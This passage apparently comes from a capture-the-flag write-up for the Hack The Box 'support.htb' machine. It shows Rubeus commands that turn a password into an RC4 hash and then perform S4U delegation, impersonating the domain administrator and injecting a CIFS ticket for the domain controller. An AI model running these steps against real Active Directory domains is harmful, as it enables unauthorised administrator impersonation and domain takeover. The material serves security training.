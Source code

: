 
### 6. Hash the Password Using Rubeus

Use Rubeus to hash the plaintext password (`password`) into its `RC4_HMAC` format:

```cmd
Rubeus.exe hash /password:password
```

Output:

```
8846F7EAEE8FB117AD06BDD830B7586C
```

<img src="Imgs/image4.png" alt="RC4_HMAC hash from Rubeus">

---

### 7. Perform S4U Delegation with Rubeus

Use Rubeus to impersonate the domain administrator and request a service ticket for the target service (`cifs/dc.support.htb`):

```cmd
Rubeus.exe s4u /user:system$ /rc4:8846F7EAEE8FB117AD06BDD830B7586C /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

<img src="Imgs/image5.png" alt="S4U impersonation using Rubeus">

---